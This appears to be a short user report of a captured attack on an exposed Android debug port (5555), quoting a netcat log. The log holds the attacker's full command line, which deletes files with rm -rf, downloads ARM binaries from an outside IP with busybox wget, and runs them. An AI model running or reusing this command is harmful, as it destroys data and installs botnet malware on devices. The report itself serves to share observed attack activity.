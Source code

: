 This is the shell codes which is attacker try to trigger in my system.

i just open my port 5555
after 5 sec

listening on [any] 5555 ...
connect to [10.138.0.10] from (UNKNOWN) [179.43.139.194] 47218
����host::features=cmd,shell_v2OPENXEUc����shell:cd /data/local/tmp/; rm -rf *; busybox wget http://85.239.34.237/arm4; chmod 777 arm4; ./arm4 android; busybox wget http://85.239.34.237/arm5; chmod 777 arm5; ./arm5 android; busybox wget http://85.239.34.237/arm6; chmod 777 arm6; ./arm6 android; busybox wget http://85.239.34.237/arm7; chmod 777 arm7; ./arm7 android;ls
hello
